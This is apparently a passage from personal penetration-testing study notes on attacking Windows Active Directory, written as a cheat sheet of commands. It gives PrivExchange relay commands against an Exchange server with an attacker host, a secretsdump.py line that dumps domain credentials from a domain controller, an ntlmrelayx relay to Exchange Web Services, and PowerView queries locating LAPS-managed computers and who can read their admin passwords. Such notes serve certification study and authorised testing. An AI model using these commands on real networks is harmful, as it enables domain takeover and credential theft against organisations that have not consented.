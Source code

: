 ````

python3 privexchange.py -ah <ATTACKER HOST> <EXCHANGE SERVER> -u Username -d <DOMAIN NAME>

secretsdump.py <DOMAIN>/<USER>@<DC IP> -just-dc
```

#### The attack without credentials
- using LLMNR/NBNS/mitm6 spoofing and https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py first
- Really vague described in the INE slides. Never tried it either!
```
sudo python3 ntlmrelayx.py -t https://<EXCH HOST>/EWS/Exchange.asmx
```

#### Restore ACL's with aclpwn.py
- NTLMRelayx performs acl attacks a restore file is sived that can be used to restore the ACL's

```
python3 aclpwn.py --restore aclpwn.restore
```

## LAPS
- On a computer, if LAPS is in use, a library AdmPwd.dll can be found in the C:\Program Files\LAPS\CSE directory.
- Another great tool to use: https://github.com/leoloobeek/LAPSToolkit

#### Check if LAPS is installed on local computer
```
Get-Childitem 'C:\Program Files\LAPS\CSE\AdmPwd.dll'
Test-Path HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions #DOESNT WORK? GOTTA CHECK ECPPTX MATERIAL AGAIN
```

### Check existence of LAPS in the domain
#### Check for existence of the ms-mcs-admpwd attribute
```
Get-AdObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=<DOMAIN>,DC=<DOMAIN>'
```

#### Check for computers with LAPS installed
```
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime | select-object samaccountname
```

#### Check for GPO's with LAPS in its name
```
Get-DomainGPO -Identity *LAPS*
```

#### Check for OU's with LAPS
```
Get-DomainOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object { ($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') } | ForEach-Object { $_ | Add-Member NoteProperty 'IdentitySID' $(Convert-NameToSid $_.IdentityReference).SID; $_ }
```

#### Check which computers is part of the OU
```
Get-DomainOU -OUName <NAME> | %{Get-DomainComputer -ADSpath $_}
```

#### Check to which computers the LAPS GPO is applied to
```
Get-DomainOU -GPLink "<Distinguishedname from GET-DOMAINGPO>" | select name, distinguishedname
Get-DomainComputer -Searchbase "LDAP://<distinguishedname>" -Properties Distinguishedname
```
````